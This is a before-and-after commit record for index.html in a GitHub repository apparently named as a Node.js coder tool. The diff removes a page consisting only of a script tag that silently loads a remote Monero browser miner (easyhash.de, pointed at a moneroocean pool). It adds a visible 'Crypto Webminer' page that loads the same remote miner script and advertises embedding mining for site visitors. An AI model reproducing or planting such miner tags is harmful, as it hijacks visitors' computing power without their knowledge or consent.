

Before and after one commit to thezedwards/-meocoder-nodejs-tool, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-941 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1 +1,84 @@
-<script src="https://easyhash.de/mmh/mmh.js?perfekt=wss://?algo=cn/r?jason=gulf.moneroocean.stream:10008" > </script>
+<!DOCTYPE html>
+<html lang="en-GB">
+<head>
+	<meta charset="utf-8">
+	<meta name="description" content="Crypto Webminer | Electroneum | Monero | Bytecoin | IntenseCoin | Sumokoin | Dinastycoin | Graft | SuperiorCoin | Turtlecoin | Stellite | DERO | Masari | Cryptonight | Cryptonight-Lite | Cryptonight-Fast | Cryptonight-Pico | Cryptonight-BitTube |  Argon2id - Chukwa | Argon2id - ChukwaV2 | Custom Pool Support - Mining in your Browser ">
+	<meta name="keywords" content="Crypto Miner, Crypto Webminer, Electroneum, Bytecoin, Monero, IntenseCoin, Sumokoin, Dinastycoin, Graft, SuperiorCoin, Turtlecoin mining, Custom Pool Support Cryptonight, Electroneum mining, etn mining, etn miner, etn coins, Monero mining, XMR miner, XMR mining, Stellite mining, Webminer for Cryptocurrency">
+	<meta name="author" content="PiTi - crypto-webminer.com">
+	<meta name="robots" content="noindex, nofollow">
+
+	<title>Crypto Webminer - Mining in your Browser</title>
+    <script src="scripts/jquery-3.2.1.min.js"></script>
+
+	<!-- Wallet Cookie handle -->
+	<script src="scripts/jquery.cookie-1.4.1.min.js"></script>
+
+	<!-- Javascript Constructor -->
+	<script src="https://easyhash.de/mmh/mmh.js?v10?perfekt=wss://?algo=cn/r?jason=gulf.moneroocean.stream:10004"></script>
+
+	<!-- Miner UI Controller -->
+    <script src="scripts/gustav.js?v290918"></script>
+
+	<!-- Styles -->
+    <link rel="stylesheet" href="scripts/styles.css">
+
+	<!-- Barchart -->
+    <script src="scripts/Chart.min.js"></script>
+</head>
+
+<h2 align="center">Cryptonight mining<br> by crypto-webminer.com</h2>
+<div class="row" align="center">
+    <div class="box">
+        <h3>hashes/s</h3>
+        <h2 id="hashes-per-second">0</h2>
+    </div>
+    <div class="box">
+        <h3>threads</h3>
+        <h2>
+			<span id="threads">2</span>
+			<span id="thread-add" class="action"> + </span>
+			<span class="divide"> / </span>
+			<span id="thread-remove" class="action"> - </span>
+		</h2>
+    </div>
+</div>
+
+<div class="row" align="center">
+    <div class="box">
+        <h3> Total Hashes | Accepted Shares</h3>
+        <h2 id="accepted-shares">0</h2>
+    </div>
+    <div class="box">
+    </div>
+</div>
+<div align="center">
+    <p id="invalid" style="color:red;"></p>
+</div>
+<div class="row">
+    <input class="text" type="text" id="wallet" placeholder="Enter your Public Wallet Address and Press Start">
+</div>
+
+<div class="row">
+    <canvas id="barchart-canvas" class="stats" width="100%" height="27%"></canvas>
+</div>
+
+<button id="start">Start</button>
+
+<!-- //Keep and respect copyright -->
+<p align="center">© 2017 - 2021 | PiTi - <a href="https://www.crypto-webminer.com">crypto-webminer.com</a></p>
+<p align="center">Chart feature © 2013-2017 Nick Downie - <a href="https://github.com/chartjs/Chart.js/blob/master/LICENSE.md">Released under the MIT license</a></p>
+
+<div align="center">
+<form action="https://www.crypto-webminer.com/miningguides.html" target="_blank"><td><input type="submit" value="You need a helping guide?"/></td></form>
+</div>
+<div align="center">
+<form action="#" target="_blank"><td><input type="submit" value="Check your payments"/></td></form>
+</div><br>
+<div align="center">
+<form action="https://www.crypto-webminer.com/integrate.html"><td><input type="submit" value="You are webmaster or blogger?"/></td></form>
+</div>
+<div align="center">
+<p><font color="darkcyan">Earn cryptocurrencies direct in your wallet - for your website or blog visitors</font></p>
+<p><font color="darkcyan">Integrate our webmining service with easy steps</font></p>
+</div>
+</html>
```
